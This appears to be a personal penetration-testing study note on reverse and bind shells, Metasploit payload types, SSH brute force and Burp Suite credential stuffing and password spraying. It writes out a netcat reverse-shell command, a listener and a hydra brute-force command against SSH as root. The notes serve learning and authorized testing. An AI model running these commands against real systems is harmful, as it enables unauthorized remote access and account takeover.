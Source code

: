 ```yaml
---
tags:
  - EH
MOC: Knowledge Base
---
```


## Reverse Shell vs Bind shell
### Netcat Reverse Shell
- Most common
	- You use it 95% of the time
- A shell gives you access to a machine
	- Attackbox listens - target connects
- A reverse shell is a shell that allows a victim to connect to you
	- You can have netcat active on the attackbox listening on a port, and the target connects to your IP on the same port via netcat
- Port forward or port trigger is needed to connect the target's public IP to the attackbox's private IP
- Example connection
	- Attacker: `nc -nvlp 4444`
	- Target: `nc 192.168.57.6 4444 -e /bin/bash`
- ![Netcat Reverse Shell](assets/Screenshot%20from%202025-09-03%2013-56-41.png)
### Netcat Bind Shell
- Less common
	- Mostly on external assessments
- Most useful when you need to bypass a firewall or when reverse shell isn't working
- The attackbox connects to the target
	- Attackbox connects - target listens
- We open a port on the target via an exploit, then connect to it via netcat
- No need for port forwarding since we connect the attackbox's public IP to the target's private IP
- ![Netcat Bind Shell](assets/Screenshot%20from%202025-09-03%2013-44-18.png)

## Staged vs Non-Staged Payloads
- A payload is what you run as an exploit
- There are different types of payloads
	- Windows payloads
	- Linux payloads
	- Meterpreter payload
		- An attack payload used in [[EH Hacking Tools#Metasploit |Metasploit]]
		- There are at least 500 payloads in [[EH Hacking Tools#Metasploit |Metasploit]] alone
- The main difference between a non-staged and a staged payload's syntax is the forward slash `/`
	- Non-staged
		- `windows/meterpreter_reverse_tcp`
	- Staged
		-  `windows/meterpreter/reverse_tcp`
### Staged payloads
- Sends exploit shell payload in stages
- Can be less stable than non-staged
### Non-Staged payloads
- Sends exploit shell code all at once
- Large in size than staged
- Doesn't always work
- ![Staged vs Non-staged](assets/Screenshot%20from%202025-09-04%2011-40-25.png)

## Brute Force
###  SSH
- **Refer To**:
	- [[NET Common ports and protocols#2. SSH - Secure Shell]]
- You can brute force attack it in a few ways
	- Using hydra
		- Syntax: `hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://192.168.57.4:22 -t 4 -V`
			- -P is a password list
			- -t is the number of consecutive attempts or threads
			- -V is verbose
	- Using metasploit
		- Search for an auxiliary ssh login scanner
		- Use the found scanner
		- Check and set the options
		- The required options will be very similar to hydra
- You can use weak or default credentials to test password strength
- The assessment includes if the blue team can catch you
# Credential Stuffing and Password Spraying
### Credentials stuffing
- It's the act of injecting breached account credentials in hopes of an account takeover
- These credentials can be acquired from [[EH Reconnaissance#^ce5358|leaks]]
- Example attack using [[EH Hacking Tools#Butp suite|burp suite]] [[EH Hacking Tools#^cbb090|pitchfork]] attack
	- You're logging into a website for which you have leaked credentials
	- You select from intruder's positions tab the email value, and password value
	- You select pitchfork, and provide it via the payloads tab with a list of usernames for param 1 (the email value param) and a list of passwords for param 2 (the password value param)
	- Pitchfork will try each username of password of equal index together to attempt logging in with them
	- As the attack is running it will show you each attempt and its result
	- You can filter by unsuccessful attempts by checking the response of any of the attempts, and if it failed, copy the failure message then go to the options tab and add it in the grep feature
### Password spraying
- Disclaimer: you must always ask about the number of possible attempts before the account is locked
	- Trying this technique blindly with a bunch of employee usernames can cause mass account locking and DoS for the client company
- Example attack using [[EH Hacking Tools#Butp suite|burp suite]] [[EH Hacking Tools#^837b27|sniper]] attack
	- The start is the same as the pitchfork attack, but you select only the email value as your param
	- This attack will try every email in the list once with a common password
# BufferOverflow
- This topic is being discussed separately over here [[EH Buffer Overflow Steps]]
# Notes
- If a payload fails, try the other type
	- You send a non-staged payload and it fails, try a staged payload
	- Your failed payload was a reverse shell? Try a bind shell